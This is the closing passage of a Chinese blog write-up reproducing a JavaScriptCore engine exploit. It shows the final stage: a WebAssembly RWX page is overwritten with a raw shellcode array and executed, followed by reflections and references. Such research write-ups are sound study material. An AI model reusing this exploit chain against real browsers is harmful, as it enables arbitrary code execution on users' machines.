 ```
const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var funcObj_addr = addressOf(func);
var codeAddr = read64(funcObj_addr[0] + 0x48,funcObj_addr[1],1);
var rwx_addr = read64(codeAddr[0],codeAddr[1],1);

debug("funcObj_addr=" + funcObj_addr[1].toString(16) + funcObj_addr[0].toString(16));
debug("codeAddr=" + codeAddr[1].toString(16) + codeAddr[0].toString(16));
debug("rwx_addr=" + rwx_addr[1].toString(16) + rwx_addr[0].toString(16));

//替换jit的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   write64(rwx_addr[0] + i*4,rwx_addr[1],p64f(shellcode[i],0));
`}`

//执行shellcode
func();
```

成功利用

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t019417706fecd0e221.png)



## 0x03 感想

JSC的漏洞利用本质上与V8的漏洞利用相似，分析方法也类似，这些JS引擎的漏洞挖掘方法大多有着共同点。通过本次复现，又收获了许多新知识。



## 0x04 参考

[FireShell2020——从一道ctf题入门jsc利用](https://www.anquanke.com/post/id/223494#h3-2)<br>[Webkit Exploitation Tutorial](https://docs.ioin.in/writeup/www.auxy.xyz/_tutorial_Webkit_Exp_Tutorial_/index.html)<br>[wiki JavaScriptCore](https://trac.webkit.org/wiki/JavaScriptCore#no1)<br>[【编译原理】中间代码（一）](https://blog.csdn.net/jzyhywxz/article/details/78720620)<br>[深入剖析 JavaScriptCore](https://ming1016.github.io/2018/04/21/deeply-analyse-javascriptcore/)<br>[JavaScriptCore内部原理（一）：从JS源码到字节码的追踪](https://blog.csdn.net/systemino/article/details/110248446?utm_medium=distribute.pc_relevant.none-task-blog-2~default~BlogCommendFromMachineLearnPai2~default-1.control)<br>[WebKit commitdiff](https://git.webkit.org/?p=WebKit.git;a=commitdiff;h=b602e9d167b2c53ed96a42ed3ee611d237f5461a;hp=7996e60888558ca8640cade6b1c0d6688b53ebc4)
